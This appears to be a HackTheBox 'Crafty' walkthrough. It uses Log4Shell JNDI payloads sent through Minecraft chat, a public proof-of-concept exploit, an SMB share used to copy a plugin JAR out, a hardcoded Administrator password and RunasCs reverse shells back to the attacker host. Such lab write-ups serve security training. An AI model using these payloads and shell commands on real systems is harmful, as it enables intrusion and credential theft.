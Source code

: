 # HTB: Crafty 🤖 - Full Walkthrough

---

## 🔎 Recon

### 🔮 Port Scan
```bash
nmap -p- --min-rate 10000 -oA nmap/alltcp 10.10.11.249
nmap -p 80,25565 -sCV 10.10.11.249
```
- [HTTP](HTTP) (80): Microsoft IIS 10.0
- Minecraft (25565): Version 1.16.5 (Crafty Server)

### 🌐 Host Mapping
```bash
echo "10.10.11.249 crafty.htb play.crafty.htb" | sudo tee -a /etc/hosts
```

### 🚀 Web Enumeration
```bash
feroxbuster -u http://crafty.htb \
-w /opt/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```
> Found: /home, /coming-soon, /css, /img, /js

---

## 🗰 Minecraft Port 25565

### 🎮 Client: Minecraft Console Client (Free)
```bash
./MinecraftClient-20240415-263-linux-x64 0xdf
```
- Server: crafty.htb
- Version: 1.16.5

### 🔍 Log4Shell Detection
```bash
nc -lnvp 389
# Send in chat:
${jndi:ldap://10.10.14.6/test}
```

---

## 🛡️ Exploit Log4Shell

### ⚙️ Setup
```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc
pip install -r requirements.txt
tar xf jdk-8u20-linux-x64.tar.gz
```

### ✊ Fix Payload (Windows)
Edit `poc.py`: `String cmd="cmd.exe";`

### 🎣 Launch Exploit
```bash
nc -lnvp 443
python poc.py --userip 10.10.14.6 --webport 8000 --lport 443
```
Send via chat:
```text
${jndi:ldap://10.10.14.6:1389/a}
```
> Result: Shell as `svc_minecraft`

---

## 🛠️ Privilege Escalation to Administrator

### 📁 Check Plugin Directory
```powershell
cd 'C:\Users\svc_minecraft\server\plugins'
Get-FileHash playercounter-1.0-SNAPSHOT.jar
```

### 🚚 Exfiltrate JAR
```bash
smbserver.py share . -smb2support -username oxdf -password oxdf
```
```powershell
net use \\10.10.14.6\share /u:oxdf oxdf
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.6\share\
```

### 🔬 Reverse Engineering
- Tool: `jd-gui`
- Credential Found: `Administrator : s67u84zKq8IXw`

### 🔑 Validate with RunasCs
```powershell
wget http://10.10.14.6/RunasCs.exe -outfile RunasCs.exe
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
```

### 🚀 Shell as Admin
```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.6:443
```
> Reverse shell as `Administrator`

---

## 🧰 Flags

- **User**: `c:\Users\svc_minecraft\Desktop\user.txt`
- **Root**: `c:\Users\Administrator\Desktop\root.txt`

---

## 🔎 Beyond Root - web.config Analysis

- `index.html` ➔ redirected to `/home`
- `/home` ➔ rewritten to `index.html`
- `/coming-soon` ➔ rewritten to `coming-soon.html`
- Redirects all other non-`crafty.htb` hostnames back to `crafty.htb`

> IIS URL Rewriting explained the static behavior and redirection logic.
